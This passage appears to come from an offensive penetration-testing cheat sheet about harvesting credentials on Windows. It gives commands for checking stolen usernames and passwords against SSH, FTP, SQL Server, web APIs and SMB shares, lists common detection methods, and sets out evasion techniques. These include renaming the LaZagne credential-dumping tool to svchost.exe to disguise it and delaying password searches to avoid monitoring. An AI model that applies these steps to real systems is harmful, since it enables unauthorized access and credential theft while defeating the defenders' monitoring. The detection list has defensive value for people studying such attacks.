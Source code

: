 #### Immediate Validation
```cmd
# Test SSH credentials
ssh username@target-ip

# Test WinSCP/FTP credentials
ftp target-ip

# Test database connections
sqlcmd -S server -U username -P password -Q "SELECT @@VERSION"

# Test web application access
curl -u username:password https://target/api/test
```

## 🛡️ Detection and Evasion

### Common Detection Methods
- **File access monitoring** - Unusual file access patterns
- **Process monitoring** - LaZagne execution
- **Network monitoring** - Data exfiltration
- **Registry monitoring** - Credential store access

### Evasion Techniques
```cmd
# Use legitimate Windows tools
findstr instead of custom tools when possible

# Rename LaZagne
ren LaZagne.exe svchost.exe

# Use PowerShell for stealth
Get-Content -Path "file.txt" | Select-String "password"

# Time-delay searches
timeout /t 5 && findstr /SIM "password" *.txt
```

## 🎯 Success Metrics and Validation

### Credential Quality Assessment
```bash
# Test discovered credentials immediately
net use \\target\share /user:domain\username password

# SSH validation
ssh username@target_ip

# Database connection test
sqlcmd -S server -U username -P password
```

